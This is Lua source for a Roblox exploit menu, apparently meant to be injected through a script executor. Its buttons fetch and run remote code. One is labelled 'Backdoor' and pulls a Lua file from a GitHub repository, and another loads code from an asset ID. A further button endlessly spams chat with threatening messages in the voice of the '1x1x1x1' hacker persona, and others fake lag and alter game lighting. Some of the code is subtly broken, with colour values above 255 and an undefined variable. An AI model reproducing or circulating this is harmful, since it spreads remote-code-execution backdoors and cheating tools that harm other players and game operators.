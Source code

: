 -- Gui to Lua -- Version: v2 -- Instances: local ScreenGui = Instance.new("ScreenGui") local Frame = Instance.new("Frame") local Name = Instance.new("TextLabel") local Credits = Instance.new("TextLabel") local e1x1x1x1Message = Instance.new("TextButton") local e1x1x1x1Music = Instance.new("TextButton") local e1x1x1x1Laugh = Instance.new("TextButton") local DayToNight = Instance.new("TextButton") local e666 = Instance.new("TextButton") local EpicSaxGuy = Instance.new("TextButton") local Disc0 = Instance.new("TextButton") local e2006Theme = Instance.new("TextButton") local ForceField = Instance.new("TextButton") --Properties: ScreenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui") ScreenGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling Frame.Parent = ScreenGui Frame.BackgroundColor3 = Color3.fromRGB(20, 20, 10) Frame.Position = UDim2.new(0.382171214, 0, 0.328530252, 0) Frame.Size = UDim2.new(0, 378, 0, 250) Name.Name = "Name" Name.Parent = Frame Name.BackgroundColor3 = Color3.fromRGB(255, 0, 0) Name.Size = UDim2.new(0, 378, 0, 25) Name.Font = Enum.Font.GothamBold Name.Text = "FE 1X1X1X1 Gui V1" Name.TextColor3 = Color3.fromRGB(320, 230, 210) Name.TextScaled = true Name.TextSize = 14.000 Name.TextWrapped = true Credits.Name = "Credits" Credits.Parent = Frame Credits.BackgroundColor3 = Color3.fromRGB(255, 233, 254) Credits.Position = UDim2.new(0, 0, 0.912, 0) Credits.Size = UDim2.new(0, 378, 0, 22) Credits.Font = Enum.Font.GothamBold Credits.Text = "By SOU1LESS SIM" Credits.TextColor3 = Color3.fromRGB(0, 0, 0) Credits.TextScaled = true Credits.TextSize = 14.000 Credits.TextWrapped = true e1x1x1x1Message.Name = "e1x1x1x1Message" e1x1x1x1Message.Parent = Frame e1x1x1x1Message.BackgroundColor3 = Color3.fromRGB(255, 0, 0) e1x1x1x1Message.Position = UDim2.new(0.0714285746, 0, 0.216000006, 0) e1x1x1x1Message.Size = UDim2.new(0, 79, 0, 31) e1x1x1x1Message.Font = Enum.Font.GothamBold e1x1x1x1Message.Text = "Fe 1x1x1x1 Message" e1x1x1x1Message.TextColor3 = Color3.fromRGB(0, 0, 0) e1x1x1x1Message.TextScaled = true e1x1x1x1Message.TextSize = 14.000 e1x1x1x1Message.TextWrapped = true e1x1x1x1Message.MouseButton1Down:connect(function() while true do wait(2) game.ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer("1x1x1x1: MUHAWHAWHAW!! I HAVE RETURNED FOR MY REVENGE!!", "ALL") wait(3) game.ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer("1x1x1x1: NOW YOU WILL ALL PARISH IN MY FIRE OF DOOM!!", "ALL") wait(3) game.ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer("1x1x1x1: I WILL DESTR0Y YOU ALL! YOU ARE HATERS!", "ALL") wait(3) game.ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer("1x1x1x1: YOU WILL NOT LIVE THROUGH MY DEADLY ATTACKS!!", "ALL") wait(3) game.ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer("1x1x1x1: I MIGHT AS WELL CLONE YOU INTO BOTS!!", "ALL") wait(3) game.ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer("1x1x1x1: AND THEN THOSE BOTS WILL DESTROY ROBLOX! HAHAHAHAHA!!", "ALL") wait(3) game.ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer("1x1x1x1: YOU CAN'T STOP ME! THERES NOTHING YOU CAN DO!!", "ALL") wait(2) end end) e1x1x1x1Music.Name = "e1x1x1x1Music" e1x1x1x1Music.Parent = Frame e1x1x1x1Music.BackgroundColor3 = Color3.fromRGB(255, 0, 0) e1x1x1x1Music.Position = UDim2.new(0.0714285746, 0, 0.436000019, 0) e1x1x1x1Music.Size = UDim2.new(0, 79, 0, 31) e1x1x1x1Music.Font = Enum.Font.GothamBold e1x1x1x1Music.Text = "Backdoor" e1x1x1x1Music.TextColor3 = Color3.fromRGB(0, 0, 0) e1x1x1x1Music.TextScaled = true e1x1x1x1Music.TextSize = 14.000 e1x1x1x1Music.TextWrapped = true e1x1x1x1Music.MouseButton1Down:connect(function() loadstring(game:HttpGet(('https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua'),true))() end) e1x1x1x1Laugh.Name = "e1x1x1x1Laugh" e1x1x1x1Laugh.Parent = Frame e1x1x1x1Laugh.BackgroundColor3 = Color3.fromRGB(255, 0, 0) e1x1x1x1Laugh.Position = UDim2.new(0.0714285746, 0, 0.648000002, 0) e1x1x1x1Laugh.Size = UDim2.new(0, 79, 0, 34) e1x1x1x1Laugh.Font = Enum.Font.GothamBold e1x1x1x1Laugh.Text = "Fe c00lgui" e1x1x1x1Laugh.TextColor3 = Color3.fromRGB(0, 0, 0) e1x1x1x1Laugh.TextScaled = true e1x1x1x1Laugh.TextSize = 14.000 e1x1x1x1Laugh.TextWrapped = true e1x1x1x1Laugh.MouseButton1Down:connect(function() loadstring(game:GetObjects("rbxassetid://8127297852")[1].Source)() end) DayToNight.Name = "DayToNight" DayToNight.Parent = Frame DayToNight.BackgroundColor3 = Color3.fromRGB(255, 0, 0) DayToNight.Position = UDim2.new(0.388888896, 0, 0.216000006, 0) DayToNight.Size = UDim2.new(0, 83, 0, 31) DayToNight.Font = Enum.Font.GothamBold DayToNight.Text = "Fe Fake Lag" DayToNight.TextColor3 = Color3.fromRGB(0, 0, 0) DayToNight.TextScaled = true DayToNight.TextSize = 14.000 DayToNight.TextWrapped = true DayToNight.MouseButton1Down:connect(function() while true do game.Players.LocalPlayer.Character.Torso.Anchored = true game.Players.LocalPlayer.Character.Humanoid.Jump = true wait(0.1) game.Players.LocalPlayer.Character.Torso.Anchored = false game.Players.LocalPlayer.Character.Humanoid.Sit = true wait(0.1) 	end end) e666.Name = "e666" e666.Parent = Frame e666.BackgroundColor3 = Color3.fromRGB(255, 0, 0) e666.Position = UDim2.new(0.388888896, 0, 0.43599999, 0) e666.Size = UDim2.new(0, 83, 0, 31) e666.Font = Enum.Font.GothamBold e666.Text = "Fe Checker /console" e666.TextColor3 = Color3.fromRGB(0, 0, 0) e666.TextScaled = true e666.TextSize = 14.000 e666.TextWrapped = true e666.MouseButton1Down:connect(function() if game.Workspace.FilteringEnabled == true then print ("FE, no fun here") else print ("Non FE, go all out") end end) EpicSaxGuy.Name = "EpicSaxGuy" EpicSaxGuy.Parent = Frame EpicSaxGuy.BackgroundColor3 = Color3.fromRGB(255, 0, 0) EpicSaxGuy.Position = UDim2.new(0.388888896, 0, 0.648000002, 0) EpicSaxGuy.Size = UDim2.new(0, 83, 0, 34) EpicSaxGuy.Font = Enum.Font.GothamBold EpicSaxGuy.Text = "Remove Fog" EpicSaxGuy.TextColor3 = Color3.fromRGB(0, 0, 0) EpicSaxGuy.TextScaled = true EpicSaxGuy.TextSize = 14.000 EpicSaxGuy.TextWrapped = true EpicSaxGuy.MouseButton1Down:connect(function() while true do wait() game.Lighting.FogEnd = 1000000 wait() end end) Disc0.Name = "Disc0" Disc0.Parent = Frame Disc0.BackgroundColor3 = Color3.fromRGB(255, 0, 0) Disc0.Position = UDim2.new(0.693121672, 0, 0.216000006, 0) Disc0.Size = UDim2.new(0, 89, 0, 31) Disc0.Font = Enum.Font.GothamBold Disc0.Text = "sit" Disc0.TextColor3 = Color3.fromRGB(0, 0, 0) Disc0.TextScaled = true Disc0.TextSize = 14.000 Disc0.TextWrapped = true Disc0.MouseButton1Down:connect(function() local human = kevyn.Parent:findFirstChild("Humanoid") if (human ~= nil)then human.Sit=true 	end end) e2006Theme.Name = "e2006Theme" e2006Theme.Parent = Frame e2006Theme.BackgroundColor3 = Color3.fromRGB(255, 0, 0) e2006Theme.Position = UDim2.new(0.693121672, 0, 0.43599999, 0) e2006Theme.Size = UDim2.new(0, 89, 0, 31) e2006Theme.Font = Enum.Font.GothamBold e2006Theme.Text = "RE / RESET" e2006Theme.TextColor3 = Color3.fromRGB(0, 0, 0) e2006Theme.TextScaled = true e2006Theme.TextSize = 14.000 e2006Theme.TextWrapped = true e2006Theme.MouseButton1Down:connect(function() game.Players.LocalPlayer.Character.Head:Destroy() end) ForceField.Name = "ForceField" ForceField.Parent = Frame ForceField.BackgroundColor3 = Color3.fromRGB(255, 320, 170) ForceField.Position = UDim2.new(0.693121672, 0, 0.648000002, 0) ForceField.Size = UDim2.new(0, 89, 0, 34) ForceField.Font = Enum.Font.GothamBold ForceField.Text = "Soon..." ForceField.TextColor3 = Color3.fromRGB(0, 0, 0) ForceField.TextScaled = true ForceField.TextSize = 14.000 ForceField.TextWrapped = true ForceField.MouseButton1Down:connect(function() 	-- Gui to Lua 	-- Version: 3. 	-- Instances: 	local ForceFieldGUI = Instance.new("ScreenGui") 	local ForceFieldGUI_2 = Instance.new("TextButton") 	local ForceFieldOFF = Instance.new("TextButton") 	local ForceFieldON = Instance.new("TextButton") 	--Properties: 	ForceFieldGUI.Name = "ForceFieldGUI" 	ForceFieldGUI.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui") 	ForceFieldGUI_2.Name = "ForceFieldGUI" 	ForceFieldGUI_2.Parent = ForceFieldGUI 	ForceFieldGUI_2.BackgroundColor3 = Color3.fromRGB(0, 255, 255) 	ForceFieldGUI_2.BackgroundTransparency = 0.300 	ForceFieldGUI_2.BorderColor3 = Color3.fromRGB(245, 244, 247) 	ForceFieldGUI_2.BorderSizePixel = 0 	ForceFieldGUI_2.Position = UDim2.new(0, 0, 0, 240) 	ForceFieldGUI_2.Size = UDim2.new(0, 100, 0, 20) 	ForceFieldGUI_2.Text = "ForceField" 	ForceFieldGUI_2.TextColor3 = Color3.fromRGB(17, 17, 17) 	ForceFieldGUI_2.TextTransparency = 0.300 	ForceFieldOFF.Name = "ForceFieldOFF" 	ForceFieldOFF.Parent = ForceFieldGUI 	ForceFieldOFF.BackgroundColor3 = Color3.fromRGB(253, 253, 253) 	ForceFieldOFF.BackgroundTransparency = 0.300 	ForceFieldOFF.BorderColor3 = Color3.fromRGB(245, 244, 247) 	ForceFieldOFF.BorderSizePixel = 0 	ForceFieldOFF.Position = UDim2.new(0, 0, 0, 280) 	ForceFieldOFF.Size = UDim2.new(0, 100, 0, 20) 	ForceFieldOFF.Visible = false 	ForceFieldOFF.Text = "Off" 	ForceFieldOFF.TextColor3 = Color3.fromRGB(17, 17, 17) 	ForceFieldON.Name = "ForceFieldON" 	ForceFieldON.Parent = ForceFieldGUI 	ForceFieldON.BackgroundColor3 = Color3.fromRGB(253, 253, 253) 	ForceFieldON.BackgroundTransparency = 0.300 	ForceFieldON.BorderColor3 = Color3.fromRGB(245, 244, 247) 	ForceFieldON.BorderSizePixel = 0 	ForceFieldON.Position = UDim2.new(0, 0, 0, 260) 	ForceFieldON.Size = UDim2.new(0, 100, 0, 20) 	ForceFieldON.Visible = false 	ForceFieldON.Text = "On" 	ForceFieldON.TextColor3 = Color3.fromRGB(17, 17, 17) 	-- Scripts: 	local function DVAWVL_fake_script() -- ForceFieldGUI_2.Script 		local script = Instance.new('Script', ForceFieldGUI_2) 		function onClicked(GUI) 			h = script.Parent.Parent.Parent.Parent.Character:findFirstChild("Humanoid") 			if (h ~= nil) then 				script.Parent.Parent.ForceFieldOFF.Visible = true 				script.Parent.Parent.ForceFieldON.Visible = true 			else return end 		end 		script.Parent.MouseButton1Click:connect(onClicked) 	end 	coroutine.wrap(DVAWVL_fake_script)() 	local function HYECSMJ_fake_script() -- ForceFieldOFF.Script 		local script = Instance.new('Script', ForceFieldOFF) 		function onClicked(GUI) 			f = script.Parent.Parent.Parent.Parent.Character:findFirstChild("ForceField") 			if (f ~= nil) then 				f:remove() 			else return end 		end 		script.Parent.MouseButton1Click:connect(onClicked) 	end 	coroutine.wrap(HYECSMJ_fake_script)() 	local function LOYRXPU_fake_script() -- ForceFieldOFF.Script 		local script = Instance.new('Script', ForceFieldOFF) 		function onClicked(GUI) 			h = script.Parent.Parent.Parent.Parent.Character:findFirstChild("Humanoid") 			if (h ~= nil) then 				script.Parent.Parent.ForceFieldOFF.Visible = false 				script.Parent.Parent.ForceFieldON.Visible = false 			else return end 		end 		script.Parent.MouseButton1Click:connect(onClicked) 	end 	coroutine.wrap(LOYRXPU_fake_script)() 	local function PFEVNBW_fake_script() -- ForceFieldON.Script 		local script = Instance.new('Script', ForceFieldON) 		function onClicked(GUI) 			h = script.Parent.Parent.Parent.Parent.Character:findFirstChild("Humanoid") 			if (h ~= nil) then 				FF = Instance.new("ForceField") 				FF.Parent = script.Parent.Parent.Parent.Parent.Character 			else return end 		end 		script.Parent.MouseButton1Click:connect(onClicked) 	end 	coroutine.wrap(PFEVNBW_fake_script)() 	local function FNHQ_fake_script() -- ForceFieldON.Script 		local script = Instance.new('Script', ForceFieldON) 		function onClicked(GUI) 			h = script.Parent.Parent.Parent.Parent.Character:findFirstChild("Humanoid") 			if (h ~= nil) then 				script.Parent.Parent.ForceFieldOFF.Visible = false 				script.Parent.Parent.ForceFieldON.Visible = false 			else return end 		end 		script.Parent.MouseButton1Click:connect(onClicked) 	end 	coroutine.wrap(FNHQ_fake_script)() end) -- Scripts: local function QFCS_fake_script() -- Frame.Dragify 	local script = Instance.new('LocalScript', Frame) 	local UIS = game:GetService("UserInputService") 	function dragify(Frame) 	 dragToggle = nil 	 local dragSpeed = 0 	 dragInput = nil 	 dragStart = nil 	 local dragPos = nil 	 function updateInput(input) 	 local Delta = input.Position - dragStart 	 local Position = UDim2.new(startPos.X.Scale, startPos.X.Offset + Delta.X, startPos.Y.Scale, startPos.Y.Offset + Delta.Y) 	 game:GetService("TweenService"):Create(Frame, TweenInfo.new(0.25), {Position = Position}):Play() 	 end 	 Frame.InputBegan:Connect(function(input) 	 if (input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch) and UIS:GetFocusedTextBox() == nil then 	 dragToggle = true 	 dragStart = input.Position 	 startPos = Frame.Position 	 input.Changed:Connect(function() 	 if input.UserInputState == Enum.UserInputState.End then 	 dragToggle = false 	 end 	 end) 	 end 	 end) 	 Frame.InputChanged:Connect(function(input) 	 if input.UserInputType == Enum.UserInputType.MouseMovement or input.UserInputType == Enum.UserInputType.Touch then 	 dragInput = input 	 end 	 end) 	 game:GetService("UserInputService").InputChanged:Connect(function(input) 	 if input == dragInput and dragToggle then 	 updateInput(input) 	 end 	 end) 	end 	 	dragify(script.Parent) end coroutine.wrap(QFCS_fake_script)()
